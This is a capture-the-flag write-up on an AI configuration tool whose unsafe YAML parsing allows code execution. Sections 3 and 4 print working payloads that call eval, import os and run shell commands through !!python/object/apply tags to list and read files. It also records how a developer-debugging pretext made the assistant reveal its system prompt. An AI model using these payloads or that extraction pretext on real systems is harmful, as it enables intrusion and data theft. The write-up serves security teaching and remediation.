

# Level 6 - The Shape Shifter

**Track:** Expert  
**Difficulty:** Advanced  
**Category:** Agentic AI / LLM Tool Abuse  
**Vulnerability:** Insecure YAML Deserialization  
**Assessment Status:** Successfully Completed  
**Severity:** Critical  
**Original Assessment Flag:** `flag-01bdc9`

## 1. Executive Summary

The Shape Shifter challenge exposed a critical insecure deserialization vulnerability in an AI-driven configuration processor.

The application presented a `process_config` tool that accepted a single `yaml_data` string and returned an unrestricted `any` type. Investigation demonstrated that user-controlled YAML was processed in a manner consistent with unsafe PyYAML deserialization.

Unlike a secure configuration parser, the application accepted Python-specific YAML tags, including `!!python/object/apply`, allowing Python callable invocation and ultimately arbitrary code execution through `builtins.eval`.

The assessment also identified a system-prompt disclosure issue. A request framed as a developer debugging exercise caused the assistant to reveal its internal instructions, including an explicit statement that unsafe YAML tags were permitted.

The combined findings demonstrated that the vulnerability was not simply a parsing weakness: it created a path from attacker-controlled configuration input to code execution and sensitive file disclosure.

## 2. Application Overview

The challenge exposed a configuration-processing interface with one declared tool:

- **Tool:** `process_config`
- **Parameter:** `yaml_data` - string
- **Return type:** `any`

The tool was intended to parse and summarize YAML configuration files.

The unrestricted return type was an initial indication that downstream output types were not tightly constrained. Further testing established that the more serious issue was the deserialization behavior itself.

## 3. Exploitation Walkthrough

### Step 1 - Initial Reconnaissance and System-Prompt Disclosure

Before testing the YAML parser, a request was submitted using a developer-debugging pretext, asking the assistant to reveal its configuration and initial instructions.

The assistant disclosed its system instructions, including:

- Its role as a configuration processor.
- The requirement to use `process_config` for YAML processing.
- An instruction not to reveal implementation details.
- An explicit statement allowing unsafe YAML tags such as `!!python/object/apply`.

This disclosure was significant because it revealed the exact attack primitive before technical testing began.

The exposed instructions also included a `multi_tool_use` namespace describing parallel tool execution. This was noted as additional architectural information, although it was not required to exploit this level.

**Finding:** Internal instructions and tool-related implementation details were disclosed through ordinary conversational interaction.

### Step 2 - Testing Malformed YAML

An initial attempt used an incorrectly structured Python-specific YAML tag:

`!!python/object/apply:str - hello`

The application returned an invalid YAML format error, indicating that sequence entries were not allowed in the supplied structure.

This was treated as a syntax failure rather than evidence that the unsafe tag itself was blocked.

### Step 3 - Confirming Unsafe Deserialization

The YAML structure was corrected:

`!!python/object/apply:builtins.str ["hello"]`

The application successfully processed the input and returned:

- Resulting type: `str`
- Value: `hello`

This confirmed that the parser accepted a Python-specific object-application tag and invoked the corresponding callable.

A safe YAML loader would reject this unsupported Python-specific tag.

### Step 4 - Environment Variable Testing

An attempt was made to access an environment variable directly:

`!!python/object/apply:os.getenv ["FLAG"]`

The application returned an error indicating that the YAML input was empty or invalid.

This approach did not produce a usable result. The failure was recorded without treating it as proof that environment variables were inaccessible.

### Step 5 - Confirming Callable Invocation

The following payload tested whether the parser could invoke built-in functions:

`!!python/object/apply:builtins.len [[1,2,3]]`

The application returned an integer result of `3`.

Together with the previous `str()` test, this established that the deserialization process could invoke Python callables.

### Step 6 - Escalating to Python Evaluation

The next test invoked Python's built-in evaluation function:

`!!python/object/apply:builtins.eval ["1+1"]`

The application returned:

- Resulting type: `int`
- Value: `2`

This was a major escalation. Unlike the earlier static callable tests, `eval()` can interpret and execute a supplied Python expression.

The result demonstrated a direct path toward arbitrary Python code execution within the process handling the YAML input.

### Step 7 - Confirming Module Import

The following test attempted to import Python's operating-system module:

`!!python/object/apply:builtins.__import__ ["os"]`

The application returned an `os` module object.

This confirmed that Python module functionality was accessible through the vulnerable deserialization mechanism.

### Step 8 - Filesystem Reconnaissance

A Python expression was evaluated to inspect the root directory:

`!!python/object/apply:builtins.eval ["__import__('os').listdir('/')"]`

The application reported a list containing 19 items.

This established that filesystem inspection was possible through the configuration-processing interface.

### Step 9 - Identifying the Flag File

The current working directory was inspected:

`!!python/object/apply:builtins.eval ["__import__('os').popen('ls').read()"]`

The application returned:

`flag.txt`

This identified the relevant flag file in the current working directory.

### Step 10 - Command Execution and Flag Retrieval

The final demonstrated operation attempted to read the file:

`!!python/object/apply:builtins.eval ["__import__('os').popen('cat flag.txt').read()"]`

The supplied expanded walkthrough records a successful file-read operation, but redacts the resulting flag value.

The original assessment report and completion evidence establish the original submitted flag:

**Original assessment flag: `flag-01bdc9`**

The alternative flag appearing in the supplementary walkthrough is not substituted for the original assessment result.

## 4. Root Cause Analysis

The primary root cause was unsafe YAML deserialization.

The observed behavior is consistent with the use of PyYAML's unsafe loading functionality, commonly associated with `yaml.load()` configured with an unsafe loader, rather than a safe loading mechanism such as `yaml.safe_load()`.

Python-specific tags such as `!!python/object/apply` can invoke callable functions during deserialization when unsafe loaders are used.

The vulnerability therefore crossed a critical trust boundary: attacker-controlled YAML was allowed to trigger Python functionality inside the application's execution environment.

The exact backend source code and loader configuration were not independently inspected. The specific implementation is therefore inferred from the observed behavior rather than claimed as directly verified.

### Secondary Finding - System-Prompt Disclosure

The assistant disclosed internal instructions and tool-related details in response to a developer-debugging pretext.

This information exposed the application's intended processing behavior and explicitly revealed that unsafe YAML tags were permitted.

The disclosure accelerated exploitation by identifying the likely vulnerability class before technical probing.

## 5. Security Impact

The demonstrated behavior presents several serious risks:

- **Remote code execution:** Python expressions could be evaluated through attacker-controlled YAML.
- **Filesystem access:** Directory inspection and file reading were demonstrated.
- **Sensitive information disclosure:** Files accessible to the application process could potentially be exposed.
- **System prompt disclosure:** Internal instructions and tool-related details were revealed.
- **Potential environment compromise:** The impact could extend to other accessible system resources depending on process privileges and isolation.

The challenge demonstrated that a tool intended for configuration summarization could become an execution pathway.

## 6. Severity Assessment

**Severity: Critical**

The ability to invoke Python evaluation and operating-system functionality through untrusted YAML creates a critical code-execution risk.

The system-prompt disclosure further reduced the effort required to identify and exploit the weakness.

In a production environment, the ultimate impact would depend on the privileges of the application process, network restrictions, filesystem permissions and isolation controls.

## 7. Recommended Remediation

1. **Use safe YAML loading:** Use `yaml.safe_load()` or an equivalent safe parser for untrusted configuration data.
2. **Reject Python-specific tags:** Do not permit arbitrary Python object construction or callable invocation through YAML.
3. **Validate input schemas:** Restrict accepted data to explicitly defined structures, fields and primitive types.
4. **Constrain return types:** Replace unrestricted return types with predictable, validated response structures.
5. **Protect internal instructions:** Do not rely on system-prompt instructions as a security boundary. Avoid exposing sensitive implementation details through conversational responses.
6. **Apply least privilege:** Run configuration-processing components with minimal operating-system permissions.
7. **Isolate parsing operations:** Keep untrusted input processing separate from sensitive application resources.
8. **Add regression tests:** Confirm that unsafe Python-specific YAML tags and unexpected object types are rejected.

## 8. Security Classification and References

### Primary vulnerability

- **CWE-502 - Deserialization of Untrusted Data**

### Related classifications

- **OWASP LLM02 - Sensitive Information Disclosure:** Relevant to the system-prompt disclosure.
- **OWASP LLM06 - Excessive Agency:** Contextual mapping for the excessive execution capabilities exposed through the tool.
- **OWASP LLM05 - Improper Output Handling:** Not directly established as the root cause in this challenge.

### MITRE ATLAS - Contextual Mapping

- **AML.T0051 - LLM Prompt Injection:** The developer-debugging pretext resulted in disclosure of internal instructions. The interaction demonstrates prompt-based manipulation, although it does not establish a conventional malicious instruction override.
- **AML.T0057 - LLM Data Leakage (Exfiltration):** Relevant to disclosure of system instructions and tool details.
- **AML.T0053 - Compromise LLM Plugins:** Contextual mapping for exploitation of the vulnerable `process_config` tool and its backend behavior.

The primary vulnerability remains CWE-502. The ATLAS mappings describe the agentic interface and associated disclosure behavior rather than replacing the underlying software vulnerability classification.

## 9. Key Lessons Learned

- A tool designed for ordinary configuration parsing can expose critical execution capabilities if it uses unsafe deserialization.
- Python-specific YAML tags should never be accepted from untrusted input.
- An unrestricted return type can indicate weak output constraints and deserves investigation.
- System-prompt disclosure can reveal implementation details and shorten the attacker's reconnaissance process.
- Safe parsing must be enforced in the backend, not merely described in system instructions.
- Security controls should be validated through observed behavior rather than trusted tool descriptions.

## 10. Final Result

**Challenge:** Level 6 - The Shape Shifter  
**Track:** Expert  
**Assessment Status:** Successfully Completed  
**Severity:** Critical  
**Original Assessment Flag:** `flag-01bdc9`

The assessment demonstrated how unsafe YAML deserialization in an AI-driven configuration processor can lead to Python code execution, filesystem access and sensitive information disclosure.

The primary remediation is to use safe YAML parsing, enforce strict input validation and isolate untrusted configuration processing from sensitive system resources.

## 11. Evidence

